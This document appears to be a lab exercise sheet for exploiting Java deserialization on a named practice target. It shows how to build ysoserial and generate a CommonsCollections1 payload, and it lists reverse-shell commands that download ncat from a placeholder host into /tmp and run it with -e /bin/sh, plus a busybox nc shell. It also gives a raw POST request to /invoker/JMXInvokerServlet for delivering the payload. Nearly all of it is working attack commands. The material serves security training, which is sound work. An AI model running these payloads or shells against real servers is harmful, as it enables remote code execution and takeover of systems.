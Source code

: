 # Exercise 1 - Java Deserialization

Target:
http://httpwn.com:8001/

Tool:
https://github.com/frohoff/ysoserial

## Using ysoserial

Building the tool
```
git clone https://github.com/frohoff/ysoserial.git
mvn install
cd target
```

Generating CommonsCollections gadget
`java -jar ysoserial-**-all.jar CommonsCollections1 "<<YOUR COMMAND>>"`

List available gadgets
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar`

## Simple reverse shells

```
wget http://YOUR_HOST/ncat64 -P /tmp
chmod +x /tmp/ncat64
/tmp/ncat64 -e /bin/sh YOUR_HOST 8080
```

```
busybox nc YOUR_HOST 8080 -e /bin/sh
```

## HTTP Request

The HTTP request should look like:

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: httpwn.com:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 1425

[PAYLOAD]
```